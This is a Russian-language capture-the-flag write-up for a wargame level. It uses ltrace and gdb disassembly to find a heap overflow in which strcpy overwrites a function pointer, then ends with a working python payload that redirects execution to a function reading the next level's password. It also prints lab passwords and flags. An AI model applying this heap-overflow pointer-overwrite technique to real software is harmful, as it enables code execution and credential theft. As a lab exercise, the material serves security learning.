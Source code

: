 # su level6
# pass: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

====
Уязвимость: отключена рандомизация памяти, последовательное выделение памяти (маллок), перезатереть указатель через переполнение strcpy
====

**Поведение: без аргументов сегается, с одним вывод Nope**

# ./level6 
Segmentation fault (core dumped)

# ltrace ./level6 
   __libc_start_main(0x804847c, 1, 0xbffff804, 0x80484e0, 0x8048550 <unfinished ...>
   malloc(64)                                                                     = 0x0804a008
   malloc(4)                                                                      = 0x0804a050
   strcpy(0x0804a008, NULL <unfinished ...>
   --- SIGSEGV (Segmentation fault) ---
   +++ killed by SIGSEGV +++

# ./level6 123
Nope

# ltrace ./level6 123
   __libc_start_main(0x804847c, 2, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
   malloc(64)                                                                     = 0x0804a008
   malloc(4)                                                                      = 0x0804a050
   strcpy(0x0804a008, "123")                                                      = 0x0804a008
   puts("Nope"Nope
   )                                                                   = 5
   +++ exited (status 5) +++

Проверяем gdb - функции

# i func
<>
0x08048454  n
0x08048468  m
0x0804847c  main
<>

# disas main

Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp                       32
   0x08048485 <+9>:     movl   $0x40,(%esp)                     64
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)                  28
   0x08048495 <+25>:    movl   $0x4,(%esp)                      4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx                  0x8048468 <m>:  0x83e58955
   0x080484aa <+46>:    mov    0x18(%esp),%eax                  24
   0x080484ae <+50>:    mov    %edx,(%eax)                      m
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax                   12
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax                  28
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax                  24
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave  
   0x080484d3 <+87>:    ret    
End of assembler dump.

В мейне маллочится 2 строки, вызывается функция m, которая выводит Nope, а вот n вызывает катом флаг, однако нигде не вызывается.

# disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp                       24
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)                "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    
End of assembler dump.

# disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)            "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret    
End of assembler dump.

Два маллока вызываются последовательно, рандомизация памяти отключена -> выделение памяти тоже будет последовательно. Можно переполнить строку (1 маллок на 64), дойти до указателя (второй маллок на 4) и переписать указатель на другую функцию.
Необходимо вызвать n функцию, для этого можно воспользоваться уязвимостью strcpy, т.к. ввод не ограничен, переписываем адрес.
Для вычисления, сколько нужно - в ltrace 0x0804a050 - 0x0804a008 = 72
+ 4 адрес функции

# ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d